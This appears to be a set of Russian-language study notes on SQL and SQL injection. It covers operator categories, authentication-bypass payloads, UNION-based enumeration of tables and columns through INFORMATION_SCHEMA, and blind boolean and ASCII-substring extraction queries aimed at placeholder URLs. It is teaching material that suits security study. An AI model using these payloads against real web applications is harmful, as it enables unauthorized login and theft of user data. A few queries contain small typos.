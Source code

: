 ****Операторы:****

***1. Операторы определения данных.***

1.1 **CREATE** - создание объекта.

1.2 **ALTER** - изменение объекта.

1.3 **DROP** - удаление объекта.


***2. Операторы манипуляции с данными.***

2.1 **SELECT** - выбор данных.

2.2 **INSERT** - добавление данных.

2.3 **UPDATE** - изменение данных.

2.4 **DELETE** - удаление данных.

2.5 **UNION** - объединяет два запроса в один.


***3. Операторы доступа к данным.***

3.1 **GRANT** - разрешение на манипуляции с объектом.

3.2 **REVOKE** - отзывает разрешения.

3.3 **DENY** - запрет.


****Виды SQL-injection:****

***1. Тип переменной.**

**1.1 Числовой параметр.**

Ex: 
```
SELECT * FROM somthing WHERE id=$id (не обрамлен кавычками)
```

Если подставить ', то вылетит ошибка.
Если ошибка не вылетела:

* Инъекции нет.
    
* ' фильтруются.
    
* Выкл. вывод ошибок (blind inj)


**1.2. Строковый параметр.**

Ex: 
```
SELECT * FROM somthing WHERE id='1" (обрамлен кавычками)
```
Если добавить ', то нарушится логика запроса. 

**1.3. Авторизация.**

*login и password.*

Ex: 
```
SELECT * FROM  users WHERE login='login' and password='password'
```

Уязвимость в login:
```
SELECT * FROM users WHERE login='admin'-- and password='password'
```

*Уязвимость в password:*
```
password' OR login='admin'--
```

***1.4. Оператор LIKE.***

Для оператора LIKE символ % - любая строка. 

Авторизация. В поле password вводим %

Ex: 
```
SELECT * FROM users WHERE login LIKE 'admin' AND password LIKE '%'
```

****2. Тип инъекций.****


***2.1 UNION-based***

- У всех запросов должно быть одинаковое кол-во столбцов в запросе.
- 
- Полное совпадение типов столбцов.
- 
Ex:
запрос 1 = SELECT id, user FROM users WHERE id=1

запрос 2 = SELECT user, password FROM passwords WHERE id=1
```
SELECT user, value FROM table_1 UNION SELECT user, value FROM table_2 (добавление ALL после UNION выводит дубликаты)
```

Запрос который ничего не выведет.
```
SELECT user, date FROM table_1 UNION SELECT value FROM table_2 (несовпадение количества столбцов)
```

Запрос который ничего не выведет.
```
SELECT user, date FROM table_1 UNION SELECT user, string FROM table_2 (несовпадение типов столбцов)
```

Ex: 
http://something.com/logs.php?id=1 (адресная строка)
```
SELECT Users.user, Logs.log FROM Users, Logs WHERE Logs.sid=$id
```

Запрос на таблицы в базе:
```
http://something.com/logs.php?id=1 UNION SELECT TOP 10 TABLE_NAME FROM INFORMATION_SCHEMA.TABLES--
```
Запрос на имена колонок:
```
http://something.com/logs.php?id=1 UNION SELECT TOP 10 COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME="table name"--
```

По итогу получения названия всех колонок и таблиц можно получить логи всех пользователей:
```
http://something.com/logs.php?id=1 UNION SELECT Users.user, Logs.lo FROM Users, Logs WHERE Logs.sid = Users.id
```

***2.2 Blind injection***

Не отображает ответы ошибок.

***Normal blind***

Ex: 
http://test.com/something.php?id=1
```
SELECT title, descr, body FROM something WHERE id=$id
http://test.com/something.php?id=1 and 1=1 (вернет то же самое)
http://test.com/something.php?id=1 and 1=0 (никогда не выполнится)
SELECT title, descr, body FROM something WHERE id=$id AND 1=0
```

***Payloads для определения Blind-inj***
```
AND true
AND false
'AND true-- -
'AND false-- -
'AND true %23
'AND false %23
```

**Эксплуатация.**
```
SELECT title, descr, body FROM something WHERE id=$id AND ASCII(substring((SELECT table_name FROM information_schema.tables WHERE table_schema=database() limit 0,1), 1,1))>100
SELECT title, descr, body FROM something WHERE id=$id AND X>100
```

**ASCII(symbol)** - возвращение кода символа по ascii

**substring(string, start_symbol, count_symbol)** - возвращение подстроки и строки

**SELECT table_name** - получить название таблицы.


Если Х>100 вернёт true(страница появилась), то название таблицы начинается не с ascii 100, а если вернет false(страница пропала), то начинается с ascii 100. 
Методом перебора узнаем название таблицы.

------Другой способ
Использование dual и LIKE.
% - строка произвольной длины.
_ - любой символ.

Ex: 
'something.com' LIKE '%thing%' - true.
'something.com' LIKE '%.c' - false.

'test.com' LIKE '___t.c__' - true.
'test.com' LIKE '___t.c_' - false.

```
SELECT title, descr, body FROM something WHERE id=$id AND (SELECT 1 FROM dual WHERE database() LIKE '%n%')
SELECT title, descr, body FROM something WHERE id=$id AND (SELECT 1 FROM dual WHERE database() LIKE '_______')
SELECT title, descr, body FROM something WHERE id=$id AND (SELECT 1 FROM dual WHERE database() = 'name_bd')
```

**Получение имен таблиц через столбцы.**
```
SELECT title, descr, body FROM something WHERE id=$id AND (SELECT 1 FROM dual WHERE (SELECT table_name FROM information_schema.columns WHERE table_schema = database() AND column_name LIKE '%user%' limit 0,1) LIKE '%')
```

**Запрос состоит из 2х вложенных запросов.**

1.
```
SELECT table_name FROM information_schema.columns WHERE table_schema = database() AND column_name LIKE '%user%' limit 0,1
```   
**SELECT table_name** - выдай имя таблицы.
   
**FROM information_schema.columns** - из данных колонок.
   
**WHERE table_schema = database()** - где, БД равна текущей.
   
**AND column_name LIKE '%user%'** - и таблица содержит столбец в названии которого есть user.
   
**limit 0,1** - 1шт

Если в БД есть таблица со столбцом содержащим **user**, то этот запрос вернёт имя таблицы. Например ***some_table_name***

2.
```
SELECT 1 FROM dual WHERE some_table_name LIKE '%'
```
Проверка на строку. Если вернул строку - **true**, иначе - **false**

Узнать имя таблицы.
































